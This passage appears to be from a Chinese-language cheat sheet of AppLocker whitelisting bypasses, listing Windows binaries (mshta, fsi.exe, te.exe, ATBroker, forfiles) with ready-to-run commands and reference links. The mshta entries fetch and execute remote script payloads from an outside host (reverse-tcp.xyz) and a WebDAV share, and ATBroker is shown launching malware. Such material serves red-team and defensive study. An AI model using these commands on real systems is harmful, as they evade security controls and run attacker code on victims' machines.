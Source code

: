 Links:

- https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/

#### Mshta

Msht具有执行内联脚本的能力，它将下载并执行一个脚本作为有效负载:

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://reverse-tcp.xyz/payload.sct"")"))
```

mshta接受URL作为一个参数来执行HTA

```powershell
mshta http://reverse-tcp.xyz/payload.hta
mshta \\webdavserver\folder\payload.hta
```

#### FSI

fsi.exe用于在控制台中交互式地运行fcode，或者执行fscript。

```powershell
fsi.exe c:\folder\d.fscript
```

Links:

- https://twitter.com/NickTyrer/status/904273264385589248
- https://github.com/api0cradle/UltimateAppLockerByPassList

#### TE

如果安装了TAEF（Test Authoring and Execution Framework）框架并且位于列入白名单的路径中，则可以使用它。 默认位置是：C:\\ program files(x86)\\Windows Kits\\10\\testing\\Runtimes\\TAEF

```powershell
te.exe bypass.wsc
```

Links:

- https://twitter.com/gN3mes1s/status/927680266390384640
- https://gist.github.com/N3mes1s/5b75a4cd6aa4d41bb742acace2c8ab42

#### Atbroker

```powershell
ATBroker.exe /start malware
```

Links:

- http://www.hexacorn.com/blog/2016/07/22/beyond-good-ol-run-key-part-42/

#### Forfiles

一个选择并对文件或文件集执行命令的工具。 此命令可用于批处理。

```powershell
forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe
```
